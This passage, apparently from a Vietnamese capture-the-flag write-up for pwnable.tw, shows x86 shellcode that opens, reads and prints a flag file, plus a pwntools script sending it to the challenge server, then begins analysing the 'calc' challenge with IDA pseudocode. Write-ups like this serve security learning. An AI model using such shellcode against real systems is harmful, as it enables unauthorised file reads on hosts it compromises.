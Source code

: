 ```
mov edx,0x30;
int 0x80
mov eax,0x4;  sys_write 
mov ebx,0x1;
mov edx,0x30;
int 0x80
```
Viết được cái shellcode này là ăn chắc được 60% rồi ! 
Sau đó dùng hàm asm() trong pwntool để chuyển sang bytes và đưa vào shellcode rồi viết file exploit thôi 😄😄

```
from pwn import *

filename="push 0x6761; push 0x6c662f77; push 0x726f2f65; push 0x6d6f682f"
sys_open=";mov eax,0x5;mov ebx,esp;int 0x80;"
sys_read="mov eax,0x3;mov ebx,0x3;mov edx,0x30;int 0x80;"
sys_write="mov eax,0x4;mov ebx,0x1;mov edx,0x30;int 0x80;"

shellcode=asm(filename+sys_open+sys_read+sys_write)

payload=shellcode
s=remote('chall.pwnable.tw',10001)
print(s.recv(1024))
s.sendline(payload)

print(s.recv())
s.interactive()

```
Done! :< 😆😆😆 🦈🦈🦈🦈

## cacl
Đây là 1 bài khá phức tạp! Mình phải mất kha khá thời gian để có thể hiểu được flow của chương trình, sau khi chạy thử binary với một số test khác nhau, ta có nhận xét:
	
   + Chương trình sẽ thực hiện các tính toán cơ bản 
	
   + Khi nhập vào biểu thức như: 8 – – 6 chương trình sẽ không thực hiện được
	
   + Khi nhập biểu thức dạng + 10, chương trình lại cho ra kết quả là 0.
	

Dựa vào IDA mà chúng ta có mã giả sau : 

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  ssignal(14, timeout);
  alarm(60);
  puts("=== Welcome to SECPROG calculator ===");
  fflush(stdout);
  calc();
  return puts("Merry Christmas!");
}
```
